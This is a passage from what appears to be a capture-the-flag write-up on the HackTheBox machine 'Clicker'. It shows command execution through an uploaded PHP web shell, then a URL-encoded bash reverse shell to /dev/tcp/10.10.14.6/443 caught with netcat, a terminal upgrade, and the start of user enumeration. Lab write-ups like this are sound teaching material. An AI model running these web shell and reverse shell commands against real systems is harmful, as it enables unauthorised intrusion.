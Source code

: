 Now I’ll visit `http://clicker.htb/exports/top_players_zhfppp54.php?cmd=id` and get execution:

![image-20240125124926231](/img/image-20240125124926231.png)

#### Shell

To get a shell, I’ll start `nc` listening on 443 and visit `http://clicker.htb/exports/top_players_7pbbwdqy.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.6/443%200%3E%261%27`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.232 44604
bash: cannot set terminal process group (1211): Inappropriate ioctl for device
bash: no job control in this shell
www-data@clicker:/var/www/clicker.htb/exports$

```

I’ll do the [standard shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@clicker:/var/www/clicker.htb/exports$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@clicker:/var/www/clicker.htb/exports$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@clicker:/var/www/clicker.htb/exports$

```

## Shell as jack

### Enumeration

#### Home Directories

There’s one other user with a home directory on the box:

```

www-data@clicker:/home$ ls
jack
www-data@clicker:/home$ ls jack/
ls: cannot open directory 'jack/': Permission denied

```
